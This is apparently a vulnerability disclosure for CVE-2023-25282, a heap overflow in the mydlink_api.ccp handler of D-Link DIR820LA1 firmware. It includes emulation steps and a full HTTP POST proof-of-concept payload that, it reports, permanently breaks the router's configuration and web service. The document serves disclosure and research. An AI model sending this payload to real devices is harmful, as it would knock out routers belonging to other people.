





# D-link DIR820LA1_FW106B02 permanent DDOS vulnerability

A heap overflow vulnerability in the variables of D-Link DIR820LA1_FW106B02's component "mydlink_api.ccp" allows an attacker to escalate privileges to root through permanent DDOS attacks on the router or through crafted payloads.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： https://www.dlinktw.com.tw/techsupport/download.ashx?file=3068

## 1. Affected version

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

`sub_492A68` obtains `config.log_to_syslog` and other parameters from mydlink_api.ccp, and executes strcpy without verifying the parameters, and the allocated heap space is controllable, so heap overflow can be constructed.



Track the function call `sub_492B88` of the upper layer, and then continue to `sub_49331C`, the content is as shown in the figure below. It is found that the router takes the value of parameters such as `config.log_to_syslog` and writes it into a global variable eamilInfo, and does not verify the length of the write. Therefore, this overflow may cause the important configuration information of the router to be destroyed, resulting in the complete destruction of the router web service.



## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW106B02.bin

```shell
./init.sh
sudo ./run.sh -c <brand> DIR820LA1_FW106B02.bin
```



2. Attack with the following POC attacks

​	**Attack Vector**：`&config.log_to_syslog=AAA...&log_opt_dropPackets=AAA...`

```xml
POST /mydlink_api.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 760
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

api_page=goform&api_name=form_login&settingsChanged=1&config.log_to_syslog=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&log_opt_dropPackets=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

- In the beginning, all functions of the router failed. After refreshing the web background server many times, the server crashed, and the attack effect is still there after restarting! Some configuration information was overwritten by a heap overflow, causing the router to fail to operate normally



Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.


## Disclosure

- Feb 7, 2023:Public disclosure

- Mar 7, 2023:Assign CVE number CVE-2023-25282